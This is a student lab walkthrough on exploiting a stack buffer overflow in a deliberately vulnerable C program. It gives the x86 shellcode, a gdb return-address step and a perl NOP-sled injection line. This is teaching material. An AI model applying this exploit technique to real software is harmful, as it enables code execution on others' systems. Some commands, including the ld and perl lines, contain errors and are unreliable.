 ```yaml
---
title: CS363 Lab 2 Walkthrough
---
```


# CS363 Lab2 Walkthough (Fall 2016)

**By Devon Smith and Aaron Earl**

## Compiling and testing the vulnerable application


```c 
//
//  vulnerable.c
//  
//
//  Created by Yanwei Wu on 10/12/17.
//

#include <stdio.h>
#include <string.h>

void foo (char *arg) {
    char buffer[64];
    strcpy(buffer, arg);
}

int main(int argc, char *argv[]) {
    foo(argv[1]);
    return(0);
}
``` 

### Compiling the C Application

```sh
gcc -g vulnerable.c -o vulnerable.x
```
The -g option enables the debugging mode built into the gcc compiler. The -o tells 
the compiler how to name the compiled executable.

### Testing the C Application

```sh
./vulnerable.x A
```

This will not overflow the buffer and will run normally.

```sh
./vulnerable.x AAAAAAAAAAAAAAAAAA
```

This will cause a buffer overflow and segmentation fault. This can be exploited to create 
the shellcode injection attack.

## Writing Application using Intel x86 Assembly
For this project we're going to be creating an assembly application that returns the 
user ID of the current Linux shell user.

Here is the program in C

```c
#include <stdlib.h>
#include <stdio.h>

void main()
{
    system("id");
}
```

This will look like this in ASM

```asm
section .text
global _start
_start:
    ; Clear out all of the registers
    ; xoring registers with themselves nulls them out
    xor eax, eax ; technically using eax 8-bit equivalent
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx
    ; pushing a null character onto the stack. Since shell code
    ; will not allow the use of null characters we're pushing the value
    ; of a register that is known to contain a null value.
    push    eax
    ; here we push the command we wish to execute using execve. In this
    ; case, "/usr/bin/id". In this case the characters don't fit nicely
    ; into a register so we're going to add a slash to the string as
    ; follows:
    ; "/usr/bin//id"
    ; Remember: This is a stack so we're going to be pushing this string onto the stack in reverse.
    push    0x64692f2f ; di//
    push    0x6e692f2f ; nib/
    push    0x7273752f ; rsu/
    ; Now we move the value of the stack pointer into ebx.
    mov ebx, esp
    ; Then we place a null onto the top of the stack after the
    ; current edx stack pointer.
    push    edx
    ; No we move the current stack pointer address into ecx.
    mov ecx, esp
    ; Now we null edx
    xor edx, edx
    ; Here we move the kernel shell call for execve (11) into al.
    ; Note: al is the 8-bit version of the eax register.
    mov al, 0xb
    int 0x80
```

Another good resource for ASM tutorials can be found here: [ASM Tutor]("http://asmtutor.com/")

### Experimenting with BASH
First we're going to run the id application in BASH so we can see how it works.

```sh 
root@Hacking_Live:/# /usr/bin/id
uid=0(root) gid=0(root) groups=0(root)
```

id is the application we want to run with our shell code. To start this process we're
going to take our x86 assembly and turn it into code. To do this we take the asm above
and save it into a .asm file. Then we use nasm to compile and dump out the assembly into its
byte code.

```sh
nasm -f elf shellcode.asm
ld -0 shellcode shellcode.asm
objdump -d shellcode
```

The above shell commands will compile, load, and dump out the bytecode of the assembly. We can use the bytecode to turn into an injectable attack and run our program inside the vulnerable
c program.

## Identify the Return Address

To actually inject the shell code we need to identify the return address of the vulnerable program. You can place break points and try to identify it by overflowing, or you can use the gdb command print &ebp to get the base pointer address. You must add 4 to this to get the actual return address. In this case mine ended up being \x50\xf7\xff\xbf. This is reversed from what is printed out because Intel systems are little endian.
  

## Creating Shell Code from x86 Assembly Code

The shell code should print out as pairs of numbers. To inject it into the vulnerable program we can do this:

```sh
$(perl –e ‘ print \”x90”x25; print “\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x2f\x2f\x69\x64\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe3\x52\x89\xe1\x31\xd2\xb0\x0b\xcd\x80”; print “\x50\xf7\xff\xbf”x5’)
```

The first part of this is called the NOP Sled. This pads the injection with No Ops to ensure that the buffer is overflowed and our code will be inserted. The second print will insert our program into the vulnerable program. The third print takes the return address and runs the program from there. The x5 prints the address 5 times to ensure that the system doesn't shift the addresses to compensate for oveflow. If you find your return addresses keep shifting this could be the most likely cause.

** Hope this helps **

## Resources and Notes:

Further class readings and source code can be found in my CS363 Repository.
[CS363 Repository]("https://github.com/aearl16/CS363")